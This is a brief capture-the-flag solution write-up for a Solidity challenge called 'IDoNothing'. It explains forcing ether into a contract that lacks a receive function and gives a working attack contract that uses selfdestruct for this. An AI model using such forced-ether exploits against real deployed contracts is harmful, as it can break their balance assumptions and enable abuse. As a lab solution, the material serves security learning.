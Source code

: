 # IDoNothing

## Solution :

To validate this challenge, the user needs to send ethers to the contract.

To send ethers, he can't use the send/ transfer/ call methods because there is no fallback/ receive function in the contract.
So he needs to use the destruct method to force send ether.

He needs to create an attack contract, send ether to this contract and after call the selfdestruct method with the address of the challenge's contract in params.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/intermediateChalls/IDoNothing.sol";

contract AttackIDoNothing {
    address payable originalContract;

    constructor(address payable _originalContract) public {
        originalContract = _originalContract;
    }

    function exploit() public payable {
        require(msg.value > 0 ether);
        selfdestruct(originalContract);
    }
}
```